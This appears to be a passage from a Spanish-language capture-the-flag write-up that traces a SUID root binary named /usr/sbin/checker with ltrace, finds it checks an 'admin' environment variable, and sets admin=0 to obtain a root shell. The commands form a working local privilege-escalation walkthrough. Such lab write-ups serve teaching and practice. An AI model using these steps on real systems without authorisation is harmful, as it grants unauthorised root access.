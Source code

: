 ```bash
$file /usr/sbin/checker
```

- Se trata de un binario compilado para Linux, lo ejecutamos

```bash
$/usr/sbin/checker
```

```
Not an Admin
```

- Nos devuelve dicho output, analizamos cada traza que realiza el binario dentro del sistema:  

```bash
$ltrace /usr/sbin/checker
```

```
getenv("admin")                                                                                                      = nil
puts("Not an Admin"Not an Admin
)                                                                                                 = 13
+++ exited (status 0) +++
```

- De acuerdo a esto podemos concluir lo siguiente...  

- La traza del binario muestra las siguientes acciones:  

1.  Llamada a la función `getenv()` con el argumento `"admin"`.
2.  El valor de retorno de `getenv()` es `nil`, lo que indica que no se encontró ninguna variable de entorno con el nombre `"admin"`.
3.  Llamada a la función `puts()` con el argumento `"Not an Admin"`.
4.  Se imprime `"Not an Admin"` en la salida estándar, seguido de un carácter de nueva línea (`\n`), lo que da como resultado una línea de salida que dice `"Not an Admin"`.
5.  El binario sale con un estado de salida de `0`, lo que indica que terminó exitosamente.  

- En resumen, el binario parece estar verificando si una variable de entorno con el nombre `"admin"` está definida y, en caso contrario, imprimirá un mensaje en la salida estándar diciendo que no se es administrador.

- Para aprovecharnos de esto, simplemente podemos crear una variable de entorno con el nombre "admin" con valor 0 y luego ejecutar el binario y ya que este en una parte del mismo ejecuta "/bin/bash", al existir el entorno "admin" se ejecutará la bash como root al tener el binario permisos SUID y ser del propietario root:

```bash
$export admin=0
```

- Ahora si vemos la traza que realiza el binario vemos lo siguiente:  

```
getenv("admin")                                                                                                      = "0"
setuid(0)                                                                                                            = -1
```

- Ejecutamos el binario y seremos root:  

```bash
/usr/sbin/checker
```
